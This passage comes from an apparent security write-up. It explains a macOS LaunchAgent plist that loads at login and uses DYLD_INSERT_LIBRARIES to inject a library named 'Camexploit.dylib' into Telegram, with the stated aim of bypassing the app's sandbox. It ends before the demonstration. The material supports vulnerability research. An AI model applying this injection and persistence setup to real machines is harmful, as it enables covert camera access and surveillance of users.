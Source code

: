 ```
</plist>
```

&nbsp;

The explanation for the essential keys is as we explained before in the previous example, But we gonna explain the simple

differences:

```
<key>RunAtLoad</key>
<true/>
```

&nbsp;

Specifies that the program associated with this agent should be executed as soon as the agent is loaded.

```
<key>EnvironmentVariables</key>
<dict>
    <key>DYLD_INSERT_LIBRARIES</key>
    <string>/Users/labatrixteam/telegram/Camexploit.dylib</string>
</dict>
```

&nbsp;

This section sets an environment variable `DYLD_INSERT_LIBRARIES` for the agent which specific environment variable for

dynamic libraries to be loaded before any others which instructs the system to load the

`/Users/labatrixteam/telegram/Camexploit.dylib` library when launching `Telegram`.

```
<key>ProgramArguments</key>
<array>
    <string>/Applications/Telegram.app/Contents/MacOS/Telegram</string>
</array>
```

&nbsp;

it's set to run the main executable for the Telegram application.

```
<key>StandardOutPath</key>
<string>/tmp/telegram.log</string>
<key>StandardErrorPath</key>
<string>/tmp/telegram.log</string>
```

specify where the standard output and standard error streams of the agent should be directed. Now, Let's run telegram without

our agent and see what will happen and then save our agent and load it using `launchctl` to see how the sandbox will be bypassed:
